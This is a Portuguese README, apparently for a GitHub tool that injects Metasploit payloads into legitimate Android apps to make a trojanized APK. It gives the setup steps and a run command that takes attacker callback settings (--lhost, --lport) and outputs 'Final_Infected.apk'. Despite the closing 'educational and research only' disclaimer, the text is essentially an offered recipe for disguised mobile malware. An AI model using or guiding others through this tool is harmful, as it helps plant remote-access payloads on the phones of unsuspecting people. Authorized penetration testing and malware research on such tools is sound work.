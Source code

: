 # Payload APK Generator
O Payload APK Generator é uma ferramenta simples para injetar payloads Metasploit em aplicativos Android legítimos. Este script automatiza o processo de criação de um APK infectado para fins de teste e pesquisa.

## Requisitos

Certifique-se de ter as seguintes dependências instaladas no seu sistema:

- [APKTool](https://ibotpeaches.github.io/Apktool/)
- [Jarsigner](https://docs.oracle.com/en/java/javase/11/tools/jarsigner.html) ou [APKSigner](https://github.com/iBotPeaches/Apktool)

## Uso

1. Clone o repositório:

    ```bash
    git clone https://github.com/sucloudflare/payload-apk-generator.git
    ```

2. Navegue até o diretório do script:

    ```bash
    cd payload-apk-generator
    ```

3. Execute o script com os argumentos necessários:

    ```bash
    python payload_apk.py --lhost SEU_ENDERECO_IP --lport SUA_PORTA --normal-apk CAMINHO_APK_LEGITIMO --apk-name NOME_APK
    ```

    Certifique-se de substituir `SEU_ENDERECO_IP`, `SUA_PORTA`, `CAMINHO_APK_LEGITIMO` e `NOME_APK` pelos valores desejados.

4. O arquivo APK infectado será gerado no diretório e estará disponível como `Final_Infected.apk`.

## Contribuindo

Se você encontrar problemas ou tiver sugestões para melhorias, sinta-se à vontade para abrir uma [issue](https://github.com/sucloudflare/payload-apk-generator/issues) ou enviar um [pull request](https://github.com/sucloudflare/payload-apk-generator/pulls).

## Aviso Legal

Este script é destinado apenas para fins educacionais e de pesquisa. O uso indevido deste script em ambientes não autorizados é estritamente proibido.

